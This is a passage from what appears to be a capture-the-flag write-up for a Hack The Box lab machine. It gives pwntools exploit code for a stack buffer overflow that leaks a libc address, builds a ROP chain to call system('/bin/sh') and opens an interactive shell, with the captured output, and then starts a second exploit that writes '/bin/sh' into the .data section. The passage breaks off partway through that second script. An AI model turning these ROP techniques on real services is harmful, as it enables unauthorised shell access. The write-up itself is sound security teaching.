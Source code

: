     p = remote("10.10.10.147", 1337)
    p.recvline()
    p.sendline(payload)
    leaked_puts = u64(p.recvline().strip()[7:-11].ljust(8,"\x00"))
    
    log.info("Leaked puts address: %x" % leaked_puts)
    libc_base = leaked_puts - 0x68f90
    log.info("libc_base: %x" % libc_base)
    
    sh = p64(0x161c19 + libc_base)
    
    payload = junk + pop_rdi + sh + plt_system
    p.recvline()
    p.sendline(payload)
    p.interactive()
    

Now I can run it and get a shell as user:

    
    
    root@kali# ./pwn_safe-m1.py 
    [+] Opening connection to 10.10.10.147 on port 1337: Done
    [*] Leaked puts address: 7f8b53974f90
    [*] libc_base: 7f8b5390c000
    [*] Switching to interactive mode
    $ id
    uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
    

#### Method 2: Write /bin/sh

Since I already have access to `system` and `gets`, and all I’m missing is the
string `/bin/sh`. So if I can just write that string into memory somewhere
that will be statically addressed, then I’m good.

When I look in IDA, I can see the `.data` section is marked Read/Write:

![1571340084992](https://0xdfimages.gitlab.io/img/1571340084992.png)

So I’ll have my ROP call `gets(0x404038)`, send “/bin/sh\x00” to be read by
`gets`, and then `system(0x404038)`.

That will look like:

    
    
    #!/usr/bin/env python
    
    from pwn import *
    
    context(os="linux", arch="amd64")
    #context(log_level='DEBUG')
    
    junk = "A"*120
    
    plt_gets = p64(0x401060)
    plt_system = p64(0x401040)
    pop_rdi = p64(0x40120b)
    binsh = p64(0x404038)
    